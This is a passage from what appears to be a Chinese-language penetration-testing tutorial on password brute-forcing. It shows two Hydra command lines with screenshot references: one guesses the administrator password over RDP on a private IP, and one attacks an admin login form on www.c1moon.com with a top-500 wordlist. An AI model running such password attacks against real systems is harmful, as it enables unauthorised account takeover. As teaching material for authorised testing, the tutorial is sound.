 ```bash
$ hydra -l administrator -P ./top500.txt -e ns -vV -f 192.168.31.57 rdp
```

![image-20250317234329708](穷举/image-20250317234329708.png)

### 6.6 http

```bash
$ hydra -l admin -P ./top500.txt -vV -f www.c1moon.com http-post-form "/admin/index.php:user=^USER^&ps=^PASS^&action=login:login-error"
```

![image-20250317235246581](穷举/image-20250317235246581.png)
